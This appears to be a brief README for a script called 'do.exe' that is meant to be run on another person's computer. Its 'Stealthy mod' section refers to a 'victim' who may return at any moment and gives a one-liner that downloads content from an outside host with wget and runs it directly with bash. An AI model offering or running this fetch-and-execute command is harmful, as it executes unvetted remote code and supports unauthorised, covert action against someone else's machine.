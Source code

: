 # do.exe

## Get started

```
bash features.sh
```

## Stealthy mod

You are in a panic state, your victim can come from one moment to another and you need to execute the script at full speed withou go in GitHub:
```
wget croissant.do.umontp.fr && bash index.html
```

